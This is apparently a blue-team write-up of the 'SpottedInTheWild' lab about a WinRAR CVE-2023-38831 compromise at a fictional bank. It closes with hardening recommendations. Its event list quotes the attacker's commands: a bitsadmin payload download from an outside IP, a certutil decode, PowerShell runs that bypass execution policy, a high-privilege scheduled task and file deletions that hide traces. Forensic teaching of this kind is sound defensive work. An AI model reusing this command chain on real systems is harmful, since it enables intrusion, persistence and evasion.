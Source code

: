 # Cyber Defender's "SpottedInTheWild" write-up.

## Scenario
"You are part of the incident response team at FinTrust Bank. This morning, the network monitoring system flagged unusual outbound traffic patterns from several workstations. Preliminary analysis by the IT department has identified a potential compromise linked to an exploited vulnerability in WinRAR software."

# CVE-2023-38831 Detail:
RARLAB WinRAR before 6.23 allows attackers to execute arbitrary code when a user attempts to view a benign file within a ZIP archive. The issue occurs because a ZIP archive may include a benign file (such as an ordinary .JPG file) and also a folder that has the same name as the benign file, and the contents of the folder (which may include executable content) are processed during an attempt to access only the benign file. This was exploited in the wild in April through October 2023.
https://nvd.nist.gov/vuln/detail/cve-2023-38831

![suspicious_processes](./SpottedInTheWIld_Lab/communication_software_sc.png)
![suspicious_processes](./SpottedInTheWIld_Lab/suspicouis_fille_sc.png)
![suspicious_processes](./SpottedInTheWIld_Lab/rar_content1.png)
![suspicious_processes](./SpottedInTheWIld_Lab/rar_content2.png)
![suspicious_processes](./SpottedInTheWIld_Lab/dynamic_analysis_sc.png)
![suspicious_processes](./SpottedInTheWIld_Lab/powershell_activity.png)
![suspicious_processes](./SpottedInTheWIld_Lab/run_script_sc.png)
![suspicious_processes](./SpottedInTheWIld_Lab/Decoded_run_script_sc.png)
![suspicious_processes](./SpottedInTheWIld_Lab/stored_data.png)
![suspicious_processes](./SpottedInTheWIld_Lab/win_powershell_log.png)

## Event order:
1. Download amanwhogetsnorest.jpg via bitsadmin:
<pre>
bitsadmin /transfer Nothing /download /priority normal http://172.18.35.10:8000/amanwhogetsnorest.jpg C:\Windows\Temp\amanwhogetsnorest.jpg 
</pre>
2. Used certutil to decode amanwhogetsnorest.jpg, saving the output as normal.zip. (normal.zip contained z.ps1, Eventlog.ps1, run.bat and run.ps1)
<pre>
certutil -decode amanwhogetsnorest.jpg normal.zip 1>nul
</pre>
3. Opened the command prompt to run z.ps1 from PowerShell
<pre>
cmd /c "powershell -NOP -EP Bypass C:\Windows\Temp\z.ps1"
</pre>
4. Created a scheduled task  \whoisthebaba
<pre>
schtasks /create /sc minute /mo 3 /tn "whoisthebaba" /tr C:\Windows\Temp\run.bat /RL HIGHEST
</pre>
5. Deleted z.ps1
<pre>
del z.ps1
</pre>
6. delete amanwhogetsnorest.jpg
<pre>
del amanwhogetsnorest.jpg
</pre>
7. Deleted normal.zip
<pre>
del normal.zip 
</pre>
8. Deleted the scheduled task  \whoisthebaba
<pre>
del c:\Windows\system32\Tasks\whoisthebaba
</pre>
9. Open CMD to run Eventlog.ps1 from PowerShell
<pre>
cmd /c "powershell -NOP -EP Bypass C:\Windows\Temp\Eventlog.ps1"
</pre>
10. Deleted Eventlog.ps1
<pre>
del Eventlog.ps1
</pre>


## Recommendations:

In this given scenario, I would recommend FinTrust Bank consider the following security improvements:

# Remove PowerShell and Command Prompt access for users who do not need to utilize its functionality for their job.

Priority: High

PowerShell and Command Prompt are powerful tools that are native to the Windows environment. These tools can be used by bad actors to perform activities that will not raise any red flags. Consider removing access to these tools for users who do not need them. This will hamper attackers' capabilities, cause harm, or perform reconnaissance on the system, forcing them to need to use different more noisier tactics. 

# Remove local administrator rights where applicable and practice the principle of least privilege.

Priority: High

The principle of least privilege is the practice of limiting the rights of an account to only the permissions needed to perform its function. Removing the local administrator account when applicable would restrict any abnormal behavior. This means if a host is compromised, the actions the attacker can perform are more limited.


# Verify all software is using the newest release when applicable.

Priority: High

Maintaining up-to-date software on assets is critical to prevent the execution of known vulnerabilities. Ensure that a proper software management program is in use to ensure your host's software is using the latest, most secure version.
